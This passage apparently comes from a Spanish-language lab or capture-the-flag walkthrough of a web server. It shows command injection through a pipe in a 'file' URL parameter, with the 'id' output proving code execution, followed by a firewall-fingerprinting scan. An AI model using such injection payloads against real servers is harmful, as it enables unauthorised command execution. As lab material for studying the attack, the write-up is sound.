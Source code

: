 ```

Total time: 0
Processed Requests: 468
Filtered Requests: 0
Requests/sec.: 0
```

Con esto vemos que con los comandos `| id` y `| dir` podemos ejecutar comandos para ver el `id` o listar, por lo que sabemos que si es inyectable utilizando `pipes`...

Si hacemos por ejemplo esto...

```
URL = http://<IP>/test.php?file=|%20id
```

Info:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Por lo que veremos que ciertamente es vulnerable...

Si hacemos lo siguiente...

```shell
wafw00f http://<IP>
```

Info:

```
/usr/local/lib/python3.11/dist-packages/requests-2.20.0-py3.11.egg/requests/__init__.py:89: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

                ______
               /      \                                                                                                                                      
              (  W00f! )                                                                                                                                     
               \  ____/                                                                                                                                      
               ,,    __            404 Hack Not Found                                                                                                        
           |`-.__   / /                      __     __                                                                                                       
           /"  _/  /_/                       \ \   / /                                                                                                       
          *===*    /                          \ \_/ /  405 Not Allowed                                                                                       
         /     )__//                           \   /                                                                                                         
    /|  /     /---`                        403 Forbidden                                                                                                     
    \\/`   \ |                                 / _ \                                                                                                         
    `\    /_\\_              502 Bad Gateway  / / \ \  500 Internal Error                                                                                    
      `_____``-`                             /_/   \_\                                                                                                       
                                                                                                                                                             
                        ~ WAFW00F : v2.2.0 ~                                                                                                                 
        The Web Application Firewall Fingerprinting Toolkit                                                                                                  
                                                                                                                                                             
[*] Checking http://192.168.5.187
```